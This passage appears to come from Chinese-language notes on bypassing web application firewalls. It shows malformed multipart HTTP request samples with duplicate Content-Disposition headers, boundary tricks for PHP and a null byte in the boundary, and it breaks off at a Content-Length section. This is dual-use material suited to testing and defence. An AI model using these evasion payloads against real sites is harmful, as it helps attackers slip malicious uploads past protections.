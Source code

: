             **Content-Disposition**

            在multipart协议中，一个文件上传块存在多个Content-Disposition，将以最后一个Content-Disposition的filename值作为上传的文件名。许多WAF解析到第一个Content-Disposition就认为协议解析完毕，获得上传的文件名，从而导致被绕过。

            ```
            GET /login.php HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            Accept-Language: en-us
            Accept-Encoding: gzip, deflate
            Connection: Keep-Alive
            Content-Type: multipart/form-data; boundary=--------1218108630
            
            ----------1218108630
            Content-Disposition: form-data; name="hello"
            
            world
            ----------1218108630--
            Content-Disposition: form-data; name="hello"
            Content-Disposition: form-data; name="hello
            Content-Disposition: form-data; name="hello"world"
            Content-Disposition: attachment; name="hello"
            Content-Type: multipart/form-data; boundary=x
            
            
            --x
            Content-Disposition:
            test1;
            --x
            test2;
            --x--
            test3;
            name="hello"
            
            world
            ```

            **Boundary****PHP**

            ```
            Content-Type: multipart/form-data; myfavoriteboundaryis=X; boundary=Hello;
            ==
            Content-Type: multipart/form-data; boundary=X;
            ```

            **Nullbyte**

            ```
            Content-Type: multipart/form-data; boundary=HELLO\x00XXXXXXXXX
            ==
            Content-Type: multipart/form-data; boundary=HELLO
            ```

            **忽略 Content-Length**

            ```
            Content-Type: application/x-www-form-urlencoded
            Content-Length: 11
            